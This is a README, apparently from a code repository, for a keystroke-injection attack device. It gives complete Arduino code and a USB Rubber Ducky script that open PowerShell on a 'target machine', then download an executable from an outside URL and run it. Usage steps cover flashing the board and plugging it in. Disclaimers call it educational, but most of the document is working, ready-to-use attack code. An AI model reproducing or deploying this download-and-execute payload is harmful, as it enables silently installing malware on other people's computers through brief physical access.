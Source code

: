 

## **README: Script to Download and Execute a File Using PowerShell**

### **Overview**
This project contains two scripts (Arduino and DuckyScript) that use keyboard emulation to:
1. Open the Windows Run dialog.
2. Launch PowerShell.
3. Execute a command to download a file from the internet and run it.

These scripts are designed for educational purposes or automation tasks. Use responsibly.

---

### **1. Arduino Code**
#### **Description**
The Arduino script uses the `Keyboard` library to emulate keyboard input, automating the process of opening PowerShell, downloading a file, and executing it.

#### **Code**
```cpp
#include <Keyboard.h>

void setup() {
  Keyboard.begin();
  delay(1000);
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  delay(500);
  Keyboard.releaseAll();
  delay(500);
  Keyboard.print("powershell");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(1500);
  Keyboard.print("iwr -Uri \"https://example.com\" -OutFile \"C:\\Temp\\installer.exe\" ; Start-Process \"C:\\Temp\\installer.exe\"");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(500);
  Keyboard.end();
}

void loop() {

}
```

#### **Usage**
1. Flash the code onto an Arduino-compatible board that supports keyboard emulation (e.g., Arduino Micro, Leonardo, etc.).
2. Plug the device into the target machine.
3. The script will:
   - Open the Run dialog.
   - Launch PowerShell.
   - Download a file from `https://example.com` and save it to `C:\Temp\installer.exe`.
   - Execute the downloaded file.

#### **Dependencies**
- Arduino IDE with the `Keyboard` library included.
- Ensure the target system allows execution of PowerShell commands.

---

### **2. DuckyScript**
#### **Description**
The DuckyScript version is written for a USB Rubber Ducky device, which automates keystrokes in a similar manner.

#### **Script**
```plaintext
DELAY 1000
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1500
STRING iwr -Uri "https://example.com" -OutFile "C:\Temp\installer.exe" ; Start-Process "C:\Temp\installer.exe"
ENTER
DELAY 500
```

#### **Usage**
1. Copy the script into a file named `payload.txt`.
2. Flash the script onto a USB Rubber Ducky using the Duck Encoder.
3. Plug the device into the target machine.
4. The script will:
   - Open the Run dialog.
   - Launch PowerShell.
   - Download a file from `https://example.com` and save it to `C:\Temp\installer.exe`.
   - Execute the downloaded file.

#### **Dependencies**
- USB Rubber Ducky hardware.
- Duck Encoder to compile the script into an inject.bin file.

---

### **Important Notes**
1. **Legal and Ethical Usage**: These scripts are powerful tools for automation but can be misused. Use them only in environments where you have explicit permission.
2. **File URL**: Replace `https://example.com` with the actual URL of the file you want to download.
3. **Target Compatibility**: Ensure the target system has PowerShell enabled and allows script execution.
4. **Testing**: Always test scripts in a controlled environment before deploying.

---

### **Disclaimer**
This project is for **educational purposes only**. Unauthorized use of these scripts may violate laws or organizational policies. The author is not responsible for any misuse. Always obtain permission before using these scripts on any device.
